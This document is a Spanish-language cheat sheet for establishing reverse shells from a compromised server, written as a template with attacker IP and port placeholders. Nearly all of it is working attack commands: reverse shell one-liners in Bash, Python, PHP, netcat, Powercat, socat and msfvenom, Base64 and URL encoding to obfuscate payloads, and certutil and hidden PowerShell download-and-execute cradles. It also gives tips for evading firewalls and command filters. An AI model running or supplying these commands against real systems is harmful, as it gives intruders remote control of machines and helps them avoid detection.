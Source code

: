 # CheatSheet: Reverse Shell

## Fecha: 22/01/2025
## Host: {HOST}
## IP: {IP}

---

## Objetivo
Establecer una conexión inversa desde el servidor comprometido hacia el atacante, proporcionando acceso remoto al sistema objetivo.

---
## Herramientas
1. Netcat
2. Metasploit
3. Bash
4. Python
5. PHP
6. Powercat (para entornos Windows)

---
## Procedimiento y comandos

1. **Preparar el listener en la máquina atacante**:
   ```bash
   nc -lvnp {PORT}
   ```

2. **Iniciar una reverse shell desde el servidor**:
   - **Bash**:
     ```bash
     bash -i >& /dev/tcp/{ATTACKER_IP}/{PORT} 0>&1
     ```
   - **Python**:
     ```python
     python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("{ATTACKER_IP}",{PORT})); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh"])'
     ```
   - **PHP**:
     ```php
     php -r '$sock=fsockopen("{ATTACKER_IP}",{PORT}); exec("/bin/sh -i <&3 >&3 2>&3");'
     ```
   - **Netcat (con soporte -e)**:
     ```bash
     nc -e /bin/bash {ATTACKER_IP} {PORT}
     ```
   - **Netcat (sin soporte -e)**:
     ```bash
     rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc {ATTACKER_IP} {PORT} > /tmp/f
     ```
   - **Powercat (para Windows)**:
     ```powershell
     powercat -c {ATTACKER_IP} -p {PORT} -e cmd.exe
     ```
     Powercat es una herramienta escrita en PowerShell que actúa como Netcat para Windows. Se puede descargar e importar:
     ```powershell
     Import-Module .\powercat.ps1
     ```

3. **Codificación URL y Base64**:
   - **Codificar payloads en URL**:
     ```bash
     echo -n "bash -i >& /dev/tcp/{ATTACKER_IP}/{PORT} 0>&1" | xxd -p | tr -d '\n' | sed 's/\(..\)/%\1/g'
     ```
   - **Codificar payloads en Base64**:
     ```bash
     echo -n "bash -i >& /dev/tcp/{ATTACKER_IP}/{PORT} 0>&1" | base64
     ```
     En el servidor objetivo, decodificar y ejecutar:
     ```bash
     echo {BASE64_PAYLOAD} | base64 -d | bash
     ```

4. **Usar herramientas para obtener shells avanzadas**:
   - Upgrade a TTY shell:
     ```bash
     python -c 'import pty; pty.spawn("/bin/bash")'
     ```

---
## Troubleshooting
1. **Firewall bloqueando puertos**:
   - Usar puertos comunes (HTTP 80 o HTTPS 443).
   - Probar con SSL/TLS para ofuscar tráfico.
     ```bash
     openssl s_client -quiet -connect {ATTACKER_IP}:{PORT}
     ```

2. **Protección contra comandos directos**:
   - Encapsular comandos en scripts.
   - Utilizar nombres de variables obfuscados o codificaciones como Base64.

3. **El listener no recibe conexiones**:
   - Verificar conectividad entre las máquinas.
   - Confirmar que el puerto usado esté abierto en ambas direcciones.

4. **Windows sin herramientas básicas**:
   - Usar herramientas como Powercat o certutil para descargar y ejecutar scripts necesarios.
     ```powershell
     certutil -urlcache -split -f "http://{ATTACKER_IP}/powercat.ps1" powercat.ps1
     ```

---
## Herramientas Alternativas
- [ ] **Socat**: Generación de shells avanzadas.
  ```bash
  socat tcp-connect:{ATTACKER_IP}:{PORT} exec:/bin/bash,pty,stderr,setsid,sigint,sane
  ```
- [ ] **Metasploit**: Creación de payloads personalizados.
  ```bash
  msfvenom -p linux/x86/shell_reverse_tcp LHOST={ATTACKER_IP} LPORT={PORT} -f elf > reverse.elf
  ```
- [ ] **PowerShell**: Reverse shell en sistemas Windows.
  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://{ATTACKER_IP}/reverse.ps1')"
  ```
- [ ] **Powercat**: Herramienta versátil para shells en Windows.
  ```powershell
  powercat -c {ATTACKER_IP} -p {PORT} -e cmd.exe
  ```


